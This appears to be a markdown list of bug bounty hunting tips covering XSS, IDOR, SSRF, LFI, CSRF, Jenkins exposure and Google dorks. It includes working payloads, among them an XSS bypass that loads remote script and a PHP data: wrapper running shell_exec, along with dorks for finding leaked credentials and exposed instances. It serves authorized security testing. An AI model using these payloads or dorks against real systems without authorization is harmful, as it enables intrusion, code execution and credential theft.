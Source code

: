 # Bug Bounty Tips

### XSS
- I love it when a site creates a filter to 'try' prevent something like XSS (or even certain file extensions from being uploaded:D). In this case, [xss filter bypass: </script><%0dscript%20src=\http://mysite.com/yay.js>](https://www.bugbountynotes.com/forum/viewpost?id=100)
- Have you ever come across an issue, where you could pop XSS but parenthesis () gets filtered ? this payload ``onfocus="alert`1`"autofocus=`` will bypass that problem.
- If you open the url in the browser and see nothing but blank page, do not assume there is nothing there.
  - ALWAYS check the source code. There might be a bunch of JavaScript or e.g. some commented source code from server.
- ALWAYS check the full response on any request. Errors can sometimes give u the keys to the kingdom if u actually figure out what ur looking at witin the error response.

### IDOR

- When you're looking at an asset that may use a microservices architecture, look for IDOR vulnerabilities using path traversal. E.g. `https://example/?id=1/../2`.
  - The authorization check may pass because the user is allowed to see resource 1 and the system ignores /../2 in the authorization layer. This could work because some microservice architectures use HTTP to transport messages.
  - When one of the microservices implemented an HTTP endpoint like "/resource/:id" and it trusts the message from the sender, you may end up requesting "/resource/1/../2", which resolves to "/resource/2", given you access to an object you may not be authorized to see.
  - Yeah, I have encountered several issues of this type. like `https://example/?id=1/.../..../..../id=2` but never ended up in path traversal vulnerabilities.

### Information Disclosure

- Want to find some internal code of companies or some sample codes of new features? Checkout with: `site:http://repl.it  intext:<companydomain>`. In companydomain, if you know the internal domain it is even better.
  - `site:http://gist.github.com`
- Search for public Trello boards of companies, to find login credentials, API keys, etc. Or if you aren't lucky enough, then you may find companies' Team Boards sometimes with tasks to fix security vulnerabilities.

### SSRF

- a = Find fixed SSRF. b = Find open redirection in whitelisted domains. C = Amazon Aws metadata API.
  - a+b+C = Boom.

### LFI

- When lfi doesnt work to get `/etc/passwd` for example, you can always try to get source code disclosure by using the function of php://filter: `php://filter/convert.base64-encode/resource=index`
- When you came up with a file= parameter before trying for other rfi see phpinfo page is accessible or not you might get some juicy information. e.g.`file=data:text/plain, <?php phpinfo(); ?>`
  - Why prefer phpinfo() when you can `data:text/plain, <?php echo shell_exec("ls"); ?>`? (in both cases, allow_url_include=1).
  
### CSRF

- When testing for CSRF, send the POST parameters using GET method, eg: `GET /[post endpoint]?postprm1=value&postprm2=value2`. You will be surprised how many developers forget to add csrf protection on GET methods of the same endpoints.
  
### Higher Privilege

- If a website does not verify email, try signing up with <whatev>@domain.com (the company email). Sometimes this gives you higher privilege like deleting/viewing any other user's profiles etc.
  
### Hiden Endpoints

- A redirect to SSO does not always mean that every endpoints are behind the SSO. Specially if it is a popular instance like JIRA, Confluence etc, check to see if you can still hit endpoints like search sections, filters etc.

### Jenkins

- Sometime an open Jenkins dashboard can be as critical as below finding. A Shodan query to list all such publically accessible Jenkins Instance: `https://www.shodan.io/search?query=x-jenkins+200`
- sometimes you find those PATHs that forwards to a login page & you can't see the content inside them (ex: `/path/to/secret` --> Google login).
  - Take all these PATHs, prepend `/public/` to all of them as: `/public/path/to/secret`, got access to a Jenkins instance.

### HTTP Methods

- If server only allows GET and POST method, then try adding "X-HTTP-Method -Override: PUT to achieve RCE via PUT method.

### TOOLS
  
- Don't forget the google dorks, sometimes when you can't find nothing, let google find something for you. Check [this list of advanced google dorks](https://pastebin.com/zYPZNbMK) and use them.
  - Use of Google dorks and the site operator is a good way to identify vulnerable apps on sites with bounty. The inurl:/OA_HTML to get [unpatched instances with XSS or SQLi](https://the-infosec.com/2018/11/06/oracle-ebs-security-auditing/) is one of them.
  - To discover domains deployed on Github for subdomain takeover, following google dork can be used :- intext:"There isn't a Github Pages site here" and intitle:"Site not found · GitHub Pages"
- Debugging Javascript can yield gold. You can edit source files directly by enabling "Local Overides" in Chrome. Changes made will persist, even after you refresh the page! 
